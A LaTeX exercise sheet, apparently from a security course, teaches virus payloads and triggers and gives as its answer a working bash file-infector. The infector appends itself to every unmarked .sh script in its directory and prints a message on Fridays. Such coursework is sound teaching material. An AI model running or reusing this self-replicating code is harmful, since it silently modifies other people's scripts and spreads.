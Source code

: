 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{rappel}
\textbf{Payload and triggers:}

The \textbf{payload} is the malicious action performed by the virus (displaying a message, deleting files, encryption, etc.). It is typically activated by a conditional \textbf{trigger}:

\begin{itemize}
    \item \textbf{Temporal:} activated at a specific date/time (e.g., Friday, April 1st)
    \item \textbf{By counter:} activated after a certain number of executions
    \item \textbf{Event-based:} activated by a system event (network connection, file present, etc.)
\end{itemize}

\textbf{Useful commands:}
\begin{itemize}
    \item \texttt{date +\%u}: day of the week (1=Monday, \ldots, 5=Friday, 7=Sunday)
    \item \texttt{date +\%d}: day of the month (01--31)
    \item Hidden files: a name starting with \texttt{.} (dot) is hidden from \texttt{ls}
\end{itemize}

\textit{Link with Lab Work 2:} logic bombs use the same conditional trigger principle.
\end{rappel}

\begin{enumerate}
\item[\textbf{3a)}] Add a payload activated only on \textbf{Friday}. Use \texttt{date +\%u} (5=Friday). The payload will be a simple \texttt{echo} (non-destructive!). Integrate this feature into the Phase 2a virus.

\item[\textbf{3b)}] Counter variant: use a hidden file \texttt{.vbx\_count} incremented on each virus execution. The payload triggers after 3 executions.

\item[\textbf{3c)}] Propose a method to test the Friday trigger without waiting for Friday. Hint: explore the options of \texttt{date -d}.
\end{enumerate}

\begin{correction}

\textbf{3a)} Virus with temporal payload (Friday):
\begin{lstlisting}[title=vbashx\_phase3a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=15
# Payload: triggered on Friday (day 5)
if [ "$(date +%u)" -eq 5 ]; then
    echo "[VBashX] PAYLOAD ACTIVATED - Today is Friday!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
